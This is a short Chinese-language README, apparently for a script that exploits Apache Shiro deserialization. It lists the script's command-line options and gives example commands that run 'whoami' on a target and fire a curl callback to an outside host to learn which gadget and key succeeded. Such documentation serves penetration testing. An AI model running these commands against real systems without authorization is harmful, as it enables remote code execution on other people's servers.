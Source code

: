 ## Apache Shiro

#### 使用方法

```bash
python3 Apache_Shiro_Scan.py -u http://target.com/user/login.do -c 'whoami'
```

`-u` 指定目标 url

`-c` 指定命令

`-g` 指定 Gadget，如不指定，遍历脚本中的 11 个 Gadget

`-k` 指定 Key，如不指定，遍历脚本中的所有 Key

`-f` 指定一个字符串，如果指定且该字符串出现在 `-c` 指定的命令中，则会替换这个字符串为每次遍历时的 Gadget 和 Key


`-f` 参数可以识别命令执行时使用的是哪个 Gadget 和哪个 Key，在需要判断是哪个 Gadget 和哪个 Key 时使用


示例：

```bash
python3 Apache_Shiro_Scan.py -u http://target.com/user/login.do -c 'curl http://ip:port/GGKK' -f GGKK
```

`-c` 指定的 `curl http://ip:port/GGKK` 中的 GGKK 会被替换每次遍历 Gadget 和 Key 的值，如：curl http://ip:port/CommonsCollections10kPH+bIxk5D2deZiIxcaaaA==


#### 参考

[ShiroScan](https://github.com/sv3nbeast/ShiroScan)

[java.lang.Runtime.exec() Payload Workarounds](http://www.jackson-t.ca/runtime-exec-payloads.html)
